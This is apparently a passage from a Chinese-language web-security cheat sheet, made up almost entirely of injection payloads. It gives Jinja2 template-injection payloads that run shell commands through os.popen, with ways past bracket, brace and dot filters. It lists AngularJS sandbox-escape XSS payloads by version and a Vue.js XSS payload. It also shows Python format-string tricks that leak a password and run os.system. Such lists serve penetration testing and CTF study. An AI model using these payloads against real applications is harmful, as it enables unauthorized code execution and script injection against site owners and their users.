 - RCE (another way)
        - `{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls').read()}}`
- 过滤中括号
    - `__getitem__`
    - `{{''.__class__.__mro__.__getitem__(2)}}`
        - `{{''.__class__.__mro__[2]}}`
- 过滤`{{` or `}}`
    - 用`{%%}`
    - 执行结果往外传
- 过滤`.`
    - `{{''.__class__}}`
        - `{{''['__class__']}}`
        - `{{''|attr('__class__')}}`
- 用request绕
    - `{{''.__class__}}`
        - `{{''[request.args.kaibro]}}&kaibro=__class__`

## AngularJS
- v1.6后移除Sandbox
- Payload
    - `{{ 7*7 }}` => 49
    - `{{ this }}`
    - `{{ this.toString() }}`
    - `{{ constructor.toString() }}`
    - `{{ constructor.constructor('alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}` 2.3 v1.2.19-v1.2.23
    - `{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}` v1.2.24-v1.2.29
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}` v1.3.20
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}` v1.4.0-v1.4.9
    - `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}` v1.5.0-v1.5.8
    - `{{ [].pop.constructor('alert(1)')() }}` 2.8 v1.6.0-1.6.6

## Vue.js
- `{{constructor.constructor('alert(1)')()}}`
- https://github.com/dotboris/vuejs-serverside-template-xss

## Python
- `%`
    - 输入`%(passowrd)s`即可偷到密码：
    ```python
    userdata = {"user" : "kaibro", "password" : "ggininder" }
    passwd  = raw_input("Password: ")
    if passwd != userdata["password"]:
        print ("Password " + passwd + " is wrong")
    ```
- `f`
    - python 3.6
    - example
        - `a="gg"`
        - `b=f"{a} ininder"`
            - `>>> gg ininder`
    - example2
        - `f"{os.system('ls')}"`
